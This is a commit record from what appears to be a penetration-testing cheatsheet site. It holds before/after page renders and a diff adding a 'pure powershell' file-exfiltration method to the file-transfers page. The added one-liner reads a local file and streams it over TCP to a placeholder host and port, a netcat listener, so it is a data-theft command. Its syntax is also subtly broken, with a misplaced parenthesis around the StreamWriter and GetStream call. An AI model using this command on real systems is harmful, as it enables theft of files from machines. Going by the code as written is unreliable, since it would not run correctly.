

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/file-transfers.md, in a window 1280 px wide. Shown: the top 314 px of the page, without its empty margins (166-1108 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added pure powershell method of exfilling files

````diff
--- a/_topics/file-transfers.md
+++ b/_topics/file-transfers.md
@@ -13,3 +13,7 @@ tags:
 ## Linux
 
 ## Windows
+Powershell Send File to Netcat
+```shell
+$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream());foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
+```
````
